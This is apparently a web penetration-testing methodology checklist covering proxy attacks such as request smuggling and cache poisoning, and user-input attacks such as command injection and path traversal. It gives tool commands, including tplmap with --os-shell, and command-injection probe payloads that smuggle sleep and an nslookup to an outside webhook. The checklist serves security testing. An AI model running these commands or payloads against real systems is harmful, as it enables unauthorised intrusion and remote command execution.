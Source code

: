 # Methodology

## Proxies
- ☐ Abusing hop-by-hop headers
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- ☐ Cache Poisoning/Cache Deception
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- ☐ HTTP Request Smuggling 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- ☐ H2C Smuggling
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- ☐ Uncovering Cloudflare
- ☐ XSLT Server Side Injection

## User input
### Reflected Values
- ☐ Client Side Template Injection (Like SSTI)
- ☐ Command Injection
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- ☐ CRLF
```
// Tool crlfuzz
crlfuzz -u <url>
```
- ☐ Dangling Markup
- ☐ File Inclusion/Path Traversal
```
// Fast Fuzzing
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
// Deep Fuzzing (recommend)
wfuzz -X GET -c -w file_inclusion_linux.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
wfuzz -X POST -c -w file_inclusion_linux.txt --hw 0 -d "foo=FUZZ" http://10.10.10.10/nav.php

// Can use Burp Active Scanner
```
- ☐ Open Redirect (Detected by Burp Scanner)
- ☐ Prototype Pollution to XSS (NodeJS)
- ☐ Server Side Inclusion/Edge Side Inclusion (Detected by Burp Scanner)
- ☐ Server Side Request Forgery
- ☐ Server Side Template Injection (Detected by Burp Scanner)
```
// Tool tplmap
python2 tplmap.py -u 'http://10.10.10.10/page?name=Box*' --os-shell
```
- ☐ Reverse Tab Nabbing
- ☐ XSLT Server Side Injection
- ☐ XSS
- ☐ XSSI
- ☐ XS-Search

